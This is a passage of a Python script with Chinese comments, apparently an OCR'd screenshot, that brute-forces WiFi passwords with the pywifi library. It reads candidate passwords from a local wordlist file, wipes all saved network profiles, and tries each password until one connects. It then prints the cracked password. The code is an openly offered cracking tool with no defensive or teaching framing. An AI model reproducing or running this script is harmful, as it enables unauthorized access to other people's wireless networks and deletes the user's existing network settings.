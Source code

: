```
        profile.key=pwd

        #删除所有连接过的wifi文件
        ifaces.remove_all_network_profiles()

        #设定新的连接文件
        tep_profile=ifaces.add_network_profile(profile)
        ifaces.connect(tep_profile)

        #wifi连接时间
        time.sleep(3)

        if ifaces.status()==const.IFACE_CONNECTED:
            return True
        else:
            return False


    else:
        print("已有wifi连接") 

#读取密码本
def readPassword():

    print("开始破解:")
    #密码本路径
    path="./password.txt"

    #打开文件
    file=open(path,"r")

    while True:
        try:
            #一行一行读取
            pad=file.readline()
            bool=wifiConnect(pad)

            if bool:
                print("密码已破解： ",pad)
                print("WiFi已自动连接！！！")
                break
            else:
                #跳出当前循环，进行下一次循环
                print("密码破解中....密码校对: ",pad)
        except:
            continue

readPassword()

```
